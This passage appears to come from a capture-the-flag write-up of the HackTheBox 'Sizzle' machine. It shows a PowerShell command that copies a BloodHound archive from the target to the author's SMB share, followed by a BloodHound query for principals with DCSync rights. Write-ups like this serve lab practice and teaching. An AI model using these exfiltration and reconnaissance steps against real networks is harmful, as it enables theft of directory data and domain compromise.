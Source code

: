 
To transfer the zip archive to my attack machine, I use the same SMB server from before, only this time I write to it from the target as such:

```powershell
copy 20240124024539_BloodHound.zip \\10.10.14.51\s\
```

And now I have the zip archvie on my attack machine:

![got-zip-44](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/got-zip-44-.png)


From here we need to lunch [bloodhound](https://github.com/BloodHoundAD/BloodHound), and upload the data we've just retrieved from the target. 


Once the data has been loaded, I start playing around with different queires, looking at different nodes, checking for any misconfigured rights and privileges. 


In the `Dangerous Privileges` tab, I select the `Find principals with DCSync rights` query, which looks like this:

![dcsync-rights-45](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/dcsync-rights-45.png)